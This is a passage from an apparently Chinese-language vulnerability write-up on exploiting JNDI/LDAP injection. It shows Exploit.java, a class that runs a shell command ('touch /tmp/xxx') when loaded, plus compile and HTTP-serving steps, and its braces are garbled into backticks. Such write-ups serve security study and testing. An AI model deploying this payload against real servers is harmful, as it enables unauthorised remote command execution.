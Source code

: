 

## 0x04 漏洞利用

### <a class="reference-link" name="0x1%20%E7%BC%96%E5%86%99%E5%88%A9%E7%94%A8%E7%B1%BB"></a>0x1 编写利用类

因为利用ldap方式进行命令执行，首先要编写最后的命令执行代码。<br>
Exploit.java

```
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.Reader;
import javax.print.attribute.standard.PrinterMessageFromOperator;
public class Exploit`{`
    public Exploit() throws IOException,InterruptedException`{`
        String cmd="touch /tmp/xxx";
        final Process process = Runtime.getRuntime().exec(cmd);
        printMessage(process.getInputStream());;
        printMessage(process.getErrorStream());
        int value=process.waitFor();
        System.out.println(value);
    `}`

    private static void printMessage(final InputStream input) `{`
        // TODO Auto-generated method stub
        new Thread (new Runnable() `{`
            @Override
            public void run() `{`
                // TODO Auto-generated method stub
                Reader reader =new InputStreamReader(input);
                BufferedReader bf = new BufferedReader(reader);
                String line = null;
                try `{`
                    while ((line=bf.readLine())!=null)
                    `{`
                        System.out.println(line);
                    `}`
                `}`catch (IOException  e)`{`
                    e.printStackTrace();
                `}`
            `}`
        `}`).start();
    `}`
`}`
```

编译代码后，开启HTTP服务

```
javac Exploit.java
```
